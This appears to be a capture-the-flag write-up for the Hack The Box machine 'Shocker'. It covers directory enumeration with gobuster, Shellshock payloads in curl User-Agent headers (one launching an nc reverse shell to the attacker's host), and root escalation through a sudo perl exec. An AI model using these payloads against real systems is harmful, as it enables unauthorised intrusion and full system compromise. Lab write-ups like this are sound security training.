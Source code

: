 # Shocker - 10.10.10.56
## port 80

Initial landing page has an image with a cartoon on it saying don't bug me! This is a hint to tell us that brute focing will not work normally

Running a standard gobuster scan with a big wordlist results in errors with canceled requests

So I need to set a timeout and use a smaller wordlist - opt for dirb's common.txt rather than dirbuster's meduim.txt

```
gobuster dir -u http://10.10.10.56/ -w /usr/share/wordlists/dirb/common.txt --timeout 100ms  
```

```
===============================================================                            
Gobuster v3.0.1                                                                            
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                            
===============================================================                            
[+] Url:            http://10.10.10.56/                                                    
[+] Threads:        10                                                                     
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt                                   
[+] Status codes:   200,204,301,302,307,401,403                                             
[+] User Agent:     gobuster/3.0.1                                                         
[+] Timeout:        100ms                                                                  
===============================================================                            
2020/05/09 19:53:10 Starting gobuster                                                      
===============================================================                            
/.hta (Status: 403)                                                                        
/.htaccess (Status: 403)                                                                   
/.htpasswd (Status: 403)                                                                   
/cgi-bin/ (Status: 403)                                                                    
Progress: 1796 / 4615 (38.92%)[ERROR] 2020/05/09 19:53:12 [!] Get http://10.10.10.56/giftcert: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/05/09 19:53:12 [!] Get http://10.10.10.56/gifts: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/05/09 19:53:12 [!] Get http://10.10.10.56/giftreg_manage: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/05/09 19:53:12 [!] Get http://10.10.10.56/giftoptions: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/05/09 19:53:12 [!] Get http://10.10.10.56/giftregs: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/05/09 19:53:12 [!] Get http://10.10.10.56/gif: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/05/09 19:53:12 [!] Get http://10.10.10.56/git: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/05/09 19:53:12 [!] Get http://10.10.10.56/gifs: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/index.html (Status: 200)                                                                  
/server-status (Status: 403)                                                               
===============================================================                            
2020/05/09 19:53:14 Finished                                                               
===============================================================  
```
I find a few directories before recieving errors on my requests, but this is sufficient enough

The name of the box is a big hint to the exploit that will be used on the machine. Now that we have the cgi-bin directory found, need to find some kind of process that is running.

CGI stand for Common Gateway Interface. Unlike a standard http file hosted on a webserver, when a file is hosted in a certain cgi directory it is executed on the server and the result is send to the client rather than the file being sent to the client  and executed on their machine

Since this is a linux machine, we will search for files such as .sh,.pl 


```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt --timeout 1000ms -x .sh,.pl
```

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/cgi-bin/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     sh,pl
[+] Timeout:        1s
===============================================================
2020/05/09 20:26:28 Starting gobuster
===============================================================
/.hta (Status: 403)
/.hta.sh (Status: 403)
/.hta.pl (Status: 403)
/.htaccess (Status: 403)
/.htaccess.sh (Status: 403)
/.htaccess.pl (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.pl (Status: 403)
/.htpasswd.sh (Status: 403)
/user.sh (Status: 200)
===============================================================
2020/05/09 20:26:42 Finished
===============================================================
```

## https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdfi

I can test this by echoing out a string, note that spaceing matters in the curly braces

```
curl -H "User-Agent: () { :; };echo; echo vulnerable" http://10.10.10.56/cgi-bin/user.sh
```

According to owasp we can attempt a shellshock exploit by running the following command assuming that the target has nc installed on their machine

```
curl -H "User-Agent: () { :; };echo /bin/nc -e /bin/bash 10.10.14.19 1984" http://10.10.10.56/cgi-bin/user.sh
```

Nothing came through so going to try a bash reverse shell

Bash shell is successful, go through process of setting environment and work towards root

```
shelly@Shocker:/usr/lib/cgi-bin$ cd /home
shelly@Shocker:/home$ ls
shelly
shelly@Shocker:/home$ cd shelly/  
shelly@Shocker:/home/shelly$ cat user.txt 
2ec24e11320026d1e70ff3e16695b233
shelly@Shocker:/home/shelly$ 
```


## Onto root
### Always check the low hanging fruit

```
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

since this is a command, gtfobins will give me the win

```
sudo perl -e 'exec "/bin/sh";'
``` 
## Win!

```
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
# whoami
root
# cd /root
# cat root.txt
52c2715605d70c7619030560dc1ca467
# 
```
